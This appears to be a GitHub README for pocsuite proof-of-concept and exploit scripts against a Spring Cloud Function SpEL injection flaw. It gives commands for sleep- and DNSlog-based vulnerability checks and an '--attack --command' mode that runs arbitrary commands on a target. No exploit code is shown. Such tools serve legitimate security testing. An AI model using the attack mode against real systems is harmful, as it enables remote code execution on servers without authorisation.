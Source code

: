 # Spring-Cloud-Function-SpEL
## Spring-Cloud-Function-SpEL-POC
### 此代码是利用sleep，确认是否存在漏洞，延时设置3s，可以按照所处环境修改延时时间。
thank @f0ng
pocsuite -r Spring-Cloud-Function-SpEL-POC.py -u url --verify
![1648630190(1)](https://user-images.githubusercontent.com/54984589/160791484-72da9b49-36c2-41e9-9245-d586a5c74302.png)

## Spring-Cloud-Function-SpEL_POC_EXP
### 此代码是利用dnslog回显，确认是否存在漏洞，延时设置5s，可以按照所处环境修改延时时间。
This code uses the dNSlog echo to confirm whether there is a vulnerability. The delay time is set to 5s, and the delay time can be modified according to the environment.
### POC:
pocsuite -r Spring-Cloud-Function-SpEL_POC_EXP.py -u url --verify
![poc](https://user-images.githubusercontent.com/54984589/160617916-6e1a6daa-eade-4579-a2ec-79069d015c55.gif)
### EXP:
pocsuite -r Spring-Cloud-Function-SpEL_POC_EXP.py -u url --attack --command "[command]"
![exp](https://user-images.githubusercontent.com/54984589/160618090-3c9aa365-11b5-49e1-969b-e74463ee2a47.gif)
# 免责声明
## 此工具仅用于学习、研究和自查。不应将其用于非法目的。使用本工具产生的一切风险与我无关！
# Disclaimer
## This tool is for study, research, and self-examination only. It should not be used for illegal purposes. All risks arising from the use of this tool have nothing to do with me!
